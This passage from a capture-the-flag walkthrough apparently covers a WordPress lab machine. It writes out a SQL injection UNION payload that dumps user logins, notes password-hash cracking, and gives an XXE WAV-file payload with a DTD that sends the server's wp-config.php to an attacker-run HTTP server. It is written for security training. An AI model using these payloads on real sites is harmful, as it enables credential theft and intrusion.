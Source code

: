 ## Cracking WP User

So that's good then, looks like the blog database has all of the WordPress data that we need. What I need is to pull data from the wp_users table, this table typically has the usernames and Hashes of the passwords.
`action=bookingpress_front_get_category_services&_wpnonce=0bc601c881&category_id=33&total_service=-7502) UNION ALL SELECT concat(user_login),null,null,null,null,null,null,null,null from blog.wp_users limit 10-- -`
![31b043827f261d074627c89108e7eb92.png](https://i.imgur.com/or45dHe.png)This query brings back all of the users' usernames. Looks like there are two, admin and manager.

Here's a quick screenshot of the hashes
![0c4e87fecceb2eda940b1b645bd045e5.png](https://i.imgur.com/ziyhqLo.png)
Ok, we have usernames and hashes of passwords, time to fire up John the Ripper and see if we can get a password out of these hashes!
If you're following along at home, the rockyou.txt credentials list worked on cracking the manager password, now I'm able to log into wp-admin!
![e6904b7618606f6c8211b97cf8ec1773.png](https://i.imgur.com/Cvvo8Zn.png)We're in!

## XXE and wp-config

Ok, I didn't mention this earlier, but when I used WPScan initially, I was sure that the foothold I was going to need to get shell access was probably something either tied to the version of PHP it was running, or the version of WordPress. The version of WordPress on this machine (5.6.2) does have a severe local file disclosue vulnerability, triggered through an XML External Entity (XXE) vulnerability. This is triggered where a malformed WAV file uploaded into the wordpress admin media manager, can transmit an encoded version of whatever local file is on that target system.
There's a much better walkthrough of this vulnerability on the [wpsec blog](https://blog.wpsec.com/wordpress-xxe-in-media-library-cve-2021-29447), but the crux of this vulnerability is if I can read the wp-config.php file that's on the metapress.htb machine, the local user credentials are stored on this config file, and I can use those credentials to SSH into the box.

First, I copied the payload offered in the WPSec blog, changing the IP address to match my kali box
`echo -en 'RIFF\xb8\x00\x00\x00WAVEiXML\x7b\x00\x00\x00<?xml version="1.0"?><!DOCTYPE ANY[<!ENTITY % remote SYSTEM '"'"'http://10.10.14.4:9123/evil.dtd'"'"'>%remote;%init;%trick;]>\x00' > payload.wav
`
Next, I created an endpoint (evil.dtd) that the payload will import as XML, and that the payload then uses to disclose the wp-config.php file

`<!ENTITY % file SYSTEM "php://filter/read=convert.base64-encode/resource=../wp-config.php">

<!ENTITY % init "<!ENTITY &#x25; trick SYSTEM 'http://10.10.14.4:9123/?p=%file;'>" >`

Next, I stand up an http server in the directory where the evil.dtd file is:

`python -m http.server --bind 10.10.14.4 9123`

Finally, I uploaded the payload.wav file to the WordPress media manager, and a base64 encoded copy of the wp-config.php file was sent to the http server!
Here's what it looked like from the console
![84b1ae361baea8040f5e11b8148e2ea7.png](https://i.imgur.com/YOB2Pyt.png)
Now just to decode the text
![1382fd1feb3cec2ae123e3d22aa71100.png](https://i.imgur.com/4Zw8rkF.png)
And we have a complete wp-config.php file on the kali box!
![934f00cf11864791dfbaedc4978c02d2.png](https://i.imgur.com/NtAGGvd.png)
